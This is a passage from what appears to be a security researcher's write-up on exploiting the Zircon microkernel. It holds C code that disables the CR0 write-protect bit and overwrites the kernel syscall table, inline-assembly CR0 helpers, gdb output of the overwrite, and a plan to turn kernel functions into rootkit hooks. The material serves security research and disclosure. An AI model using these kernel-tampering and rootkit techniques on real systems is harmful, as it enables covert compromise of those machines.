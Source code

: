 ```c
#define SYSCALL_TABLE 0xffffffff003c49f8
#define SYSCALL_COUNT 176

int pwn(void)
{
  unsigned long cr0_value = read_cr0();

  cr0_value = cr0_value & (~0x10000); // Set WP flag to 0

  write_cr0(cr0_value);

  memset((void *)SYSCALL_TABLE, 0x41, sizeof(unsigned long) * SYSCALL_COUNT);
}
```

The `CR0` helpers:

```c
void write_cr0(unsigned long value)
{
  __asm__ volatile("mov %0, %%cr0" : : "r"(value));
}

unsigned long read_cr0(void)
{
  unsigned long value;
  __asm__ volatile("mov %%cr0, %0" : "=r"(value));
  return value;
}
```

The result:

```
(gdb) x/178xg 0xffffffff003c49f8
0xffffffff003c49f8:	0x4141414141414141	0x4141414141414141
0xffffffff003c4a08:	0x4141414141414141	0x4141414141414141
0xffffffff003c4a18:	0x4141414141414141	0x4141414141414141
...
0xffffffff003c4f58:	0x4141414141414141	0x4141414141414141
0xffffffff003c4f68:	0x4141414141414141	0x4141414141414141
0xffffffff003c4f78 <_ZN6cpu_idL21kTestDataCorei5_6260UE>:	0x0300010300000300	0x0004030003030002
```

Good. Then I started to think about how to hijack the Zircon syscalls. Doing that similarly to the Linux kernel rootkits was not possible: a usual Linux rootkit is a kernel module that provides hooks as functions from that particular module __in the kernelspace__. But in my case, I was trying to plant a rootkit from the __userspace__ exploit into the microkernel. Implementing the rootkit hooks as userspace functions in the exploit process context could not work.

So I decided to turn some kernel code from Zircon into my rootkit hooks. My first candidate for overwriting was the `assert_fail_msg()` function, which drove me nuts during exploit development. That function was big enough, so I had a lot of space to place my hook payload.
